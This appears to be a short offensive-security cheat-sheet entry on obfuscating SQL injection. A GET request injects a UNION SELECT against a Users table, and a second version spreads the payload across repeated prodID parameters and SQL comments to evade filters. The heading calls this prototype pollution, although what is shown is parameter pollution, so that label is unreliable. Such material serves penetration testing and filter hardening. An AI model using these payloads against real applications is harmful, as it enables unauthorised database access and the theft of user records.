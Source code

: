 # Obfuscation
## Prototype pollution

```
GET /api/products?prodID=9 UNION SELECT 1,2,3 FROM Users WHERE id=3 --
```

In those languages that append polluted parameters into a list (like Python), it is possible to obfuscate the payload above like this:

```
GET /api/products?prodID=9 /*&prodID=*/UNION /*&prodID=*/SELECT 1 &prodID=2 &prodID=3 FROM /*&prodID=*/Users /*&prodID=*/ WHERE id=3 --
```

+ MySQL query execution in comments